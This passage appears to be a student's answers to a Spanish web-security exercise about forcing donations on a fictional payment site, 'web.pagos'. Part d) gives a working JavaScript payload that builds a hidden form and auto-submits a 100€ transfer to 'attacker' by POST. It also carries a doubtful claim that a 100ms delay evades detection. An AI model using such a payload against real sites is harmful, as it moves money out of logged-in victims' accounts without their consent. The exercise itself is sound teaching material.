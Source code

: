 **c) Pero _web.pagos_ sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.**

**Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).**

Para que la donación se efectúe, el usuario debe estar previamente autenticado en web.pagos y tener una sesión activa al momento de la redirección.

**d) Si _web.pagos_ modifica la página `donate.php` para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.**
```JavaScript
<script>
setTimeout(function() {
  var form = document.createElement('form');
  form.method = 'POST';
  form.action = 'http://web.pagos/donate.php';
  var amount = document.createElement('input');
  amount.type = 'hidden';
  amount.name = 'amount';
  amount.value = '100';
  var receiver = document.createElement('input');
  receiver.type = 'hidden';
  receiver.name = 'receiver';
  receiver.value = 'attacker';
  form.appendChild(amount);
  form.appendChild(receiver);
  document.body.appendChild(form);
  form.submit();
}, 100);
</script>
```

Este script crea un ataque XSS que envía datos por POST:

1. setTimeout: Retrasa la ejecución 100ms para evadir detecciones.
2. createElement('form'): Crea un formulario oculto.
3. createElement('input'): Crea campos ocultos para 'amount' y 'receiver'.
4. appendChild: Añade los campos al formulario.
5. document.body.appendChild(form): Inserta el formulario en la página.
6. form.submit(): Envía el formulario automáticamente.
